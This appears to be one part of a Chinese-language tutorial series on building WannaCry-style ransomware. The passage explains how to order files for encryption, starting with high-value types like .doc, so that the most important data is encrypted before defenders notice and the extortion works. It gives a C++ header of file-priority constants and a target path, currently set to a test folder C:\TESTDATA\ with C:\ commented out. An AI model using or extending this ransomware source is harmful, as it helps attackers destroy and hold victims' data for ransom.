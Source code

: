```yaml
---
title : 09_FileList
---
```



# FileList

by WL, Liu
Date : 2021-10-15

---
## 壹、簡介
檔案進行加密需要時間，還必須有一定的順序，藉此才能確保被入侵者發現前，同樣的時間內掌握最高的價值，對最重要的檔案進行加密，才能達到勒索的效果，檔案加密不僅僅是檔案加密，更重要的是排序。舉例來說，副檔名會先從.doc開始，通常.doc會存在比較重要的檔案。為避免重複掃描而浪費時間，故採用鏈狀資料結構，而這裡使用環狀雙向鏈結。
## 貳、標頭黨
將類型定義成數字，以便於型態的紀錄與改變(可透過+1)，其中0為未知類型，其他定義如下所示。後面將目錄名定義成方便紀錄之文字。
```cpp=
#pragma once
#include <Windows.h>
#include "../Common/common.h"

#define FILETYPE_UNKNOWN	0     //未知檔案
#define FILETYPE_EXE_DLL	1     //EXE或是DLL檔案
#define FILETYPE_HIGH_PRIORITY	2     //高優先檔案
#define FILETYPE_LOW_PRIORITY	3     //低優先檔案
#define FILETYPE_ZIP_TEMP	4     //加密站存檔
#define FILETYPE_WRITESRC	5     //預處理檔案
#define FILETYPE_ENCRYPTED	6     //加密檔

#ifndef BASE_DIRNAME
#define BASE_DIRNAME _T("WANNATRY")
#endif
#ifndef ENCRYPT_ROOT_PATH
// #define ENCRYPT_ROOT_PATH _T("C:\\")
#define ENCRYPT_ROOT_PATH _T("C:\\TESTDATA\\")
#endif

```
* 第5行，0為未知檔案。
* 第6行，1為EXE或是DLL檔案。
* 第7行，2為高優先檔案。
* 第8行，3為低優先檔案。
* 第9行，4為加密站存檔。
* 第10行，5為預處理檔案。
* 第11行，6為加密檔。
* 第14行，目錄名。
* 第18行，因為為測試所用程式碼，故從C:\TESTDATE開始加密。
